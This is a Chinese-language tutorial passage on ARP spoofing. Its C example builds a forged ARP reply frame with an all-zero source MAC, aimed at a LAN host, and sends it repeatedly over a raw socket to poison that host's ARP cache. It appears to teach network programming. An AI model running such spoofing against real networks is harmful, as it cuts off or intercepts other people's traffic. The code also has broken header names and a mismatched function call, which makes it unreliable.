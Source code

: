 ##### 7.ARP欺骗

![image-20210928171520967](C:\Users\DELL\AppData\Roaming\Typora\typora-user-images\image-20210928171520967.png)



*示例代码：*

```c
#include <stdio.h>
#include <sys/socket.h>
#include <netinet/ether.h>
#include <sys/ioctl,h>//ioctl
#include<net/if.h>//struct ifreq
#include <netpacket/packet.h>
#include<pthread.h>
#include<unistd.h>//_exit
#include<string	.h>//strncpy

void my_sendto(char *outifc, unsigned char *msg, int msg_len);

int main()
{
    //1、创建原始套接字
    int sockfd = socket(PF_PACKET, SOCK_RAW, htons(ETH_P_ALL));
    if(sockfd < 0)
    {
        perror("socket");
        return 0;
    }
    
    //msg存放请求报文
    unsigned char msg[] = {
        
        /*mac报文头部 14B*/
        0xC0,0xB5,0xD7,0xC4,0x3F,0x49,/*目的mac地址 XPmac*/
        0x00,0x00,0x00,0x00,0x00,0x00,/*源mac地址 全0假地址*/
        0x08,0x06,/*帧类型*//*大端，高字节低地址*/
            
        /*ARP报文头部 28B*/
        0x00,0x01,/*硬件类型*/
        0x08,0x00,/*协议类型*/
        0x06,/*硬件地址长度*/
        0x04,/*协议地址长度*/
        0x00,0x02,/*2 ARP应答*/
        0x00,0x00,0x00,0x00,0x00,0x00,/*源mac地址 全0同上*/
        192,168,0,107,/*源IP*/
        0xC0,0xB5,0xD7,0xC4,0x3F,0x49,/*目的mac地址 XPmac*/
        192,168,0,110,/*目的IP*/
            
    };
    
    //发送arp请求帧数据
    int i = 0;
    for(i=1;i<20;i++)//影响20秒
    {
        my_sendto(sockfd, "0xb", msg, 42);
        sleep(1);
    }
   
    close(sockfd);
    return 0;
}

//封装函数
```
